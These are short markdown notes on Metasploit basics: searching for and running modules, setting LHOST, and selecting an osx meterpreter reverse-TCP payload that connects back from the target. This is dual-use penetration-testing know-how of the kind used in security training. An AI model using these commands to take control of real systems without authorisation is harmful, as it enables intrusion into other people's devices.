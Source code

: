 # Metasploit

## Basics

Search for a module:

```
search osx
search port:443
```

![image-20200424192716526](images/metasploit/image-20200424192716526.png)

Module are categorized:

- "local" mean you should acces the device locally
- "browser" are url that should be accessed by the browser

Use a module:

```
use 5
```

Show module options and informations:

```
info
options
```

Set module options:

```
set LHOST 192.168.1.26
```

Run the module:

```
run
```

List runing jobs:

```
jobs
```



## Payloads

Payload are a small program executed on the target device programmed to connect to your own computer on a specified port. 

In another terminal:

```
msfvenom -l payloads
```

Change payload in metasploit:

```
set payload osx/x64/meterpreter_reverse_tcp
```

Check payload:

```
get payload
payload => osx/x64/meterpreter_reverse_tcp
```



## Debug

browser exploit errors

```
ua_name ...
```

[https://github.com/rapid7/metasploit-framework/wiki/Information-About-Unmet-Browser-Exploit-Requirements](https://github.com/rapid7/metasploit-framework/wiki/Information-About-Unmet-Browser-Exploit-Requirements)